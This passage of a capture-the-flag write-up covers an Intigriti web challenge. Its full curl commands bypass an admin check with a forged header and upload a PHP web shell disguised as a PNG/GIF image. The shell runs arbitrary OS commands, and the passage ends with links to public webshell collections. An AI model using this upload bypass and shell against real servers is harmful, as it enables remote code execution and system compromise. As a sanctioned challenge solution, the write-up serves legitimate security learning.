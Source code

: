 HTTP GET is working now:<br>
`curl --path-as-is -i -s -k -X 'GET' -H 'Host: challenge-1025.intigriti.io' -H 'Is-Shoppix-Admin: true' 'https://challenge-1025.intigriti.io/upload_shoppix_images.php'`

Finally posting a PHP script, I'm lazy and use the same script already found on server, added with my signature.<br>
```
curl --path-as-is -i -s -k -X 'POST' -H 'Host: challenge-1025.intigriti.io' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNFdl75DZA9ssdXCu' -H 'Is-Shoppix-Admin: true' --data-binary $'------WebKitFormBoundaryNFdl75DZA9ssdXCu\x0d\x0aContent-Disposition: form-data; name="image"; filename="psytesters_rce.png.php"\x0d\x0aContent-Type: image/png\x0d\x0a\x0d\x0aGIF89a;\x0d\x0a<?php\x0d\x0a// interactive and user-friendly \x0d\x0a\x0d\x0a// Define a custom function to execute commands\x0d\x0afunction execute_command($cmd) {\x0d\x0a // Use proc_open to execute the command\x0d\x0a $descriptors = [\x0d\x0a 0 => [\'pipe\', \'r\'], // stdin\x0d\x0a 1 => [\'pipe\', \'w\'], // stdout\x0d\x0a 2 => [\'pipe\', \'w\'] // stderr\x0d\x0a ];\x0d\x0a\x0d\x0a $process = proc_open($cmd, $descriptors, $pipes);\x0d\x0a\x0d\x0a if (is_resource($process)) {\x0d\x0a // Read the output and errors\x0d\x0a $output = stream_get_contents($pipes[1]);\x0d\x0a $errors = stream_get_contents($pipes[2]);\x0d\x0a\x0d\x0a // Close the pipes\x0d\x0a fclose($pipes[0]);\x0d\x0a fclose($pipes[1]);\x0d\x0a fclose($pipes[2]);\x0d\x0a\x0d\x0a // Close the process\x0d\x0a proc_close($process);\x0d\x0a\x0d\x0a // Prepare the output for HTML display\x0d\x0a $output = htmlspecialchars($output, ENT_QUOTES, \'UTF-8\');\x0d\x0a $errors = htmlspecialchars($errors, ENT_QUOTES, \'UTF-8\');\x0d\x0a\x0d\x0a // Output the result in a user-friendly manner\x0d\x0a echo \'<pre>\';\x0d\x0a echo \'<strong>Command:</strong> \' . $cmd . \"\\n\\n\";\x0d\x0a echo \'<strong>Output:</strong>\' . \"\\n\" . $output . \"\\n\";\x0d\x0a echo \'<strong>Errors:</strong>\' . \"\\n\" . $errors . \"\\n\";\x0d\x0a echo \'</pre>\';\x0d\x0a }\x0d\x0a}\x0d\x0a\x0d\x0a// Check if a command is submitted\x0d\x0aif (isset($_POST[\'command\'])) {\x0d\x0a // Get the command from the form submission and execute it\x0d\x0a $command = $_POST[\'command\'];\x0d\x0a execute_command($command);\x0d\x0a}\x0d\x0a?>\x0d\x0a\x0d\x0a<!DOCTYPE html>\x0d\x0a<html>\x0d\x0a<head>\x0d\x0a <title>W3bSh3ll by d4rkiZ</title>\x0d\x0a</head>\x0d\x0a<body>\x0d\x0a <h1>W3bSh3ll by d4rkiZ</h1>\x0d\x0a psytester was here and it\'s a copy & paste file only\x0d\x0a <form method="POST" action="">\x0d\x0a <input type="text" name="command" placeholder="Enter your command">\x0d\x0a <button type="submit">Send</button>\x0d\x0a </form>\x0d\x0a</body>\x0d\x0a</html>\x0d\x0a------WebKitFormBoundaryNFdl75DZA9ssdXCu--\x0d\x0a' 'https://challenge-1025.intigriti.io/upload_shoppix_images.php'
```

PHP script uploaded. To execute commands, you can enter any OS command you want in input form of `https://challenge-1025.intigriti.io/uploads/psytesters_rce.png.php`

It was fun and I like this statement as a closing comment, seen at a watchtowr labs article.<br>
They have exactly my sense of humor: “It's Never Simple Until It Is.”<br>
I submited my solution, it was accepted. The severity was set from `Exceptional` to `Medium`<br>

Challenge solved, the flag can be read as apache `www-data` user and no escalation to root is required:
* got the flag ✅
* remote code execution done ✅

Nevertheless, I got a feeling of incompleteness which enabled me to learn more than I had planned, but this is not part of the challenge goal. Only my own improvement.<br>
My personal journey continued after the challenge was already over.<br>

The uploaded php file is ok for single command execution, but a reverse shell is better.<br>
Since I don't have a system on hand open reachable from public, I need some webpage based shell.<br>
[https://github.com/nicholasaleks/webshells/tree/master/php/](https://github.com/nicholasaleks/webshells/tree/master/php/)<br>
[https://phpshells.net/](https://phpshells.net/)<br>
[https://webshell.org/](https://webshell.org/)<br>
